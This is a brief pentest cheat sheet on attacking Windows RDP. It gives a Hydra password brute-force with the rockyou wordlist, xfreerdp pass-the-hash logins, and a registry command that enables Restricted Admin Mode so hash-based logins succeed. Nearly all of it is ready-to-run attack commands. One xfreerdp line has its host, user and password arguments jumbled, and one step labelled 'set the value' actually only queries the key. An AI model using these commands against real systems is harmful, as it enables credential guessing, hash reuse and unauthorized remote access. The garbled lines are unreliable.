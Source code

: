 - `finding credentials some where else as a hint` 
- `or you can brute force it.`


### 🔑 Brute-Force Login with Hydra
```bash
hydra -t 4 -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip
```

### Connect
```bash
# xfreerdp
# password
xfreerdp /v:noman /u:passwordnoman /p:192.168.10.10 /cert:ignore /workarea /smart-sizing
# pass the hash
xfreerdp /v:<TARGET_IP> /u:Administrator /pth:<NTLM_HASH> /cert:ignore /workarea /smart-sizing

# rdesktop
rdesktop $ip
```


## `DisableRestrictedAdmin`

If the key **doesn’t exist**, Windows behaves **as if Restricted Admin Mode is disabled**, which means **RDP Pass-the-Hash is not allowed**.

1. To enable it, you need to **create the key and set its value to 0**.

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```

2. set the value 
```cmd
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin
```

3. Access it now
```bash
xfreerdp /v:<TARGET_IP> /u:Administrator /pth:<NTLM_HASH> /cert:ignore /workarea /smart-sizing
```